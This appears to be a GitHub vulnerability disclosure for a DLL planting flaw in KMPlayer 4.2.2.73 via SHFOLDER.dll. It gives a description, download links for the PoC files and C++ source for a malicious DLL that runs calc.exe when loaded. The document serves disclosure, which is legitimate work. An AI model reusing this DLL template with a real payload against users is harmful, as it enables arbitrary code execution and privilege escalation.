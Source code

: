 # KMPlayer_Poc

## Vendor of the product
PandoraTV.

## The name of an affected Product
KMPlayer x32

## Affected version
KMPlayer_4.2.2.73(Latest)

## Product address: 
https://www.kmplayer.com/pc

## Description
KMPlayer  was discovered to contain a DLL hijacking vulnerability that allows attackers to escalate privileges and execute arbitrary code via a crafted DLL.

## Affected component
SHFOLDER.dll

## Vulnerability type
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type
Current Working Directory (CWD) DLL planting 

## POC video
[![KMPlayer poc](https://youtu.be/7bh2BQOqxFo)

## POC files download
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc source code
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
